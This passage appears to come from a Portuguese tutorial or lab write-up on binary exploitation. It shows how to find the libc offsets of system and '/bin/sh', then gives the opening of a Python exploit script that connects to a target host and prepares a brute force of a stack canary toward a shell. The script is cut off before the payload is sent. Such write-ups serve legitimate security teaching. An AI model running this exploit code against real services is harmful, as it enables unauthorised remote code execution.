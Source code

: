 ```bash
$ objdump -d -M intel libc/libc6_2.31-0ubuntu9_amd64 | grep system
0000000000055410 <__libc_system@@GLIBC_PRIVATE>:
   55417:       74 07                   je     55420 <__libc_system@@GLIBC_PRIVATE+0x10>
```

O offset da função `system` é `0x55410`, porém, é preciso encontrar o offset de algum comando para ser executado, no caso do desenvolvimento deste *exploit*, o comando ideal é `/bin/sh`, pois ao ser executado, retornara um *reverse shell*. Para encontrar o *offset* do comando, pode-se utilizar o comando `strings`, conforme abaixo:

```bash
$ strings -a -t x libc/libc6_2.31-0ubuntu9_amd64 | grep "/bin/sh"
 1b75aa /bin/sh
```

O offset de `/bin/sh` é `0x1b75aa`, todos os offsets de Libc encontrados, podem ser transformados em endereços reais em tempo de execução, ao somá-los com o endereço base da Libc que já foi possível calcular.

Com estas informações em mãos, é possível atualizar o script com a ultima parte, que enviará o payload e retornará um *reverse shell* interativo. A versão final do exploit fica como abaixo:

`$ cat exploit.py`
```python
#!/usr/bin/python3


import socket
from struct import pack,unpack
from telnetlib import Telnet

#definindo alvo e funcoes
target = ("192.168.0.125", 666)
p64 = lambda x: pack("Q",x)
u64 = lambda x: unpack("Q",x)

#funcao que fara o Brute Force
def bruteforce(payload):
        for i in range(256):
                next_byte = 0x01 * i
                next_byte = bytes([next_byte])

                tmp_payload = payload + next_byte

                p.send(tmp_payload)
                p.recv(1024)
                output = p.recv(1024)
                if b"Valeu!" in output:
                        print(f"[+] Byte encontrado: {hex(i)}")
                        return next_byte
                if i == 255:
                        print("[-] Erro ao encontrar o proximo byte!")
                        exit()

#Offset para atingir o Canary
offset = b"A" * 40
#Valor para sobrescrever RBP
rbp = b"B" * 8

#Cria a conexao com o alvo
p = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
p.connect(target)
#Recebe a primeira resposta do alvo
p.recv(1024)

#Inicio do Brute Force do Canary
```